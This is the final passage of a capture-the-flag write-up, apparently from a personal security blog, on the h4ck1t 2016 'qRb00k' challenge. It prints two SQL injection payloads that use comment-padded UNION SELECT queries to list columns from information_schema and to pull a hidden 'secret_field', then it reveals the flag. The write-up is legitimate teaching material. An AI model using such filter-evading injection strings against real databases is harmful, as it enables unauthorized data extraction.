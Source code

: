<pre class="lang:mysql decode:true">'/*..*/union/*..*/select/*..*/group_concat(column_name)/*..*/from/*..*/information_schema.columns/*..*/where/*..*/table_name/*..*/like/*..*/'messages'/*..*/union/*..*/select/*..*/'Megabeets</pre>

<img data-attachment-id="617" data-permalink="https://www.megabeets.net/h4ck1t-2016-qrb00k-russia-writeup/h4ck1t_russia_7/#main" data-orig-file="http://www.megabeets.net/uploads/h4ck1t_russia_7.png" data-orig-size="1199,795" data-comments-opened="1" data-image-meta="{&quot;aperture&quot;:&quot;0&quot;,&quot;credit&quot;:&quot;&quot;,&quot;camera&quot;:&quot;&quot;,&quot;caption&quot;:&quot;&quot;,&quot;created_timestamp&quot;:&quot;0&quot;,&quot;copyright&quot;:&quot;&quot;,&quot;focal_length&quot;:&quot;0&quot;,&quot;iso&quot;:&quot;0&quot;,&quot;shutter_speed&quot;:&quot;0&quot;,&quot;title&quot;:&quot;&quot;,&quot;orientation&quot;:&quot;0&quot;}" data-image-title="h4ck1t_russia_7" data-image-description="" data-image-caption="" data-medium-file="http://www.megabeets.net/uploads/h4ck1t_russia_7-300x199.png" data-large-file="http://www.megabeets.net/uploads/h4ck1t_russia_7-1024x679.png" decoding="async" loading="lazy" class="alignnone size-large wp-image-617" src="http://www.megabeets.net/uploads/h4ck1t_russia_7-1024x679.png" alt="h4ck1t_russia_7" width="687" height="456" srcset="https://www.megabeets.net/uploads/h4ck1t_russia_7-1024x679.png 1024w, https://www.megabeets.net/uploads/h4ck1t_russia_7-150x99.png 150w, https://www.megabeets.net/uploads/h4ck1t_russia_7-300x199.png 300w, https://www.megabeets.net/uploads/h4ck1t_russia_7-768x509.png 768w, https://www.megabeets.net/uploads/h4ck1t_russia_7-800x530.png 800w, https://www.megabeets.net/uploads/h4ck1t_russia_7.png 1199w" sizes="(max-width: 687px) 100vw, 687px" /> 

&#8220;secret_field&#8221;? Sounds suspicious. Let&#8217;s query it and see what it contains:

<pre class="lang:mysql decode:true ">'/*..*/union/*..*/select/*..*/secret_field/*..*/from/*..*/messages/*..*/union/*..*/select/*..*/'Megabeets</pre>

<img data-attachment-id="618" data-permalink="https://www.megabeets.net/h4ck1t-2016-qrb00k-russia-writeup/h4ck1t_russia_8/#main" data-orig-file="http://www.megabeets.net/uploads/h4ck1t_russia_8.png" data-orig-size="1026,745" data-comments-opened="1" data-image-meta="{&quot;aperture&quot;:&quot;0&quot;,&quot;credit&quot;:&quot;&quot;,&quot;camera&quot;:&quot;&quot;,&quot;caption&quot;:&quot;&quot;,&quot;created_timestamp&quot;:&quot;0&quot;,&quot;copyright&quot;:&quot;&quot;,&quot;focal_length&quot;:&quot;0&quot;,&quot;iso&quot;:&quot;0&quot;,&quot;shutter_speed&quot;:&quot;0&quot;,&quot;title&quot;:&quot;&quot;,&quot;orientation&quot;:&quot;0&quot;}" data-image-title="h4ck1t_russia_8" data-image-description="" data-image-caption="" data-medium-file="http://www.megabeets.net/uploads/h4ck1t_russia_8-300x218.png" data-large-file="http://www.megabeets.net/uploads/h4ck1t_russia_8-1024x744.png" decoding="async" loading="lazy" class="alignnone size-large wp-image-618" src="http://www.megabeets.net/uploads/h4ck1t_russia_8-1024x744.png" alt="h4ck1t_russia_8" width="687" height="499" srcset="https://www.megabeets.net/uploads/h4ck1t_russia_8-1024x744.png 1024w, https://www.megabeets.net/uploads/h4ck1t_russia_8-150x109.png 150w, https://www.megabeets.net/uploads/h4ck1t_russia_8-300x218.png 300w, https://www.megabeets.net/uploads/h4ck1t_russia_8-768x558.png 768w, https://www.megabeets.net/uploads/h4ck1t_russia_8-800x581.png 800w, https://www.megabeets.net/uploads/h4ck1t_russia_8.png 1026w" sizes="(max-width: 687px) 100vw, 687px" /> 

And we got the flag! I honestly really enjoyed this challenge.

**Flag: **_h4ck1t{I\_h@ck3d\_qR_m3Ss@g3r}_

&nbsp;

If you have any questions feel free to ask 🙂

<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img class="wp-image-149 alignnone" src="https://www.megabeets.net/uploads/megabeets_inline_logo.png" alt="megabeets_inline_logo" width="61" height="45" />Eat Veggies</a>
  </p>
</div>

 [1]: http://hack-quest.com/
 [2]: https://zxing.org/w/decode.jspx
 [3]: https://www.the-qrcode-generator.com/